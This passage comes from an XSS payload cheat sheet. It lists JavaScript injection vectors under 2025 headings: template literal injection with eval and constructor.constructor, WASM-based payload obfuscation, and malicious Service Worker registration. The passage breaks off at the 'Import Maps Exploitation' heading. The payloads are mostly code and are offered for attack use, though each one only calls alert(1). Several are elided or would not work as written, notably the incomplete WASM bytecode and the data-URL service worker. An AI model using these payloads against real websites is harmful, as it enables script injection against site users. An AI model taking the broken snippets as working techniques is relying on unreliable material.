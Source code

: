 ### Template Literal Injection - 2025

**ES6 template literal exploitation:**

```javascript
// Template literal injection
const userInput = '${alert(1)}';
eval(`console.log(\`Hello ${userInput}\`)`);

// Tagged template literals
String.raw`<script>alert(1)</script>`;

// Template literal with expression
`${constructor.constructor('alert(1)')()}`;
```

---

## Modern 2025 Attack Vectors

### WebAssembly (WASM) XSS

**Using WASM for payload obfuscation:**

```javascript
// WASM module that executes JavaScript
const wasmCode = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
  // ... WASM bytecode that calls alert(1)
]);

WebAssembly.instantiate(wasmCode).then(module => {
  module.instance.exports.executePayload();
});

// Simpler WASM exploitation
WebAssembly.compile(new Uint8Array([0,97,115,109,1,0,0,0]));
```

### Service Worker XSS

**Exploiting Service Worker registration:**

```javascript
// Malicious service worker registration
navigator.serviceWorker.register('data:text/javascript,self.addEventListener("fetch",e=>e.respondWith(new Response("<script>alert(1)</script>",{headers:{"Content-Type":"text/html"}})))');

// Service worker message exploitation
navigator.serviceWorker.controller.postMessage('<script>alert(1)</script>');
```

### Import Maps Exploitation
